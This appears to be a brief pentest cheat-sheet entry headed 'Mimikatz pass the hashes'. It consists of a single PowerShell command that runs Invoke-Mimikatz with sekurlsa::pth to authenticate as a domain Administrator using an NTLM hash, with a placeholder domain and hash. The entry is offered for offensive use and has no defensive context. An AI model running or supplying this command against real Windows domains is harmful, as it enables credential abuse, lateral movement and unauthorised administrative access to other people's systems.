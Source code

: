 ## Mimikatz pass the hashes

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:some.domain.local /ntlm:brydaafdsafd3524frw4fe4f"'
```
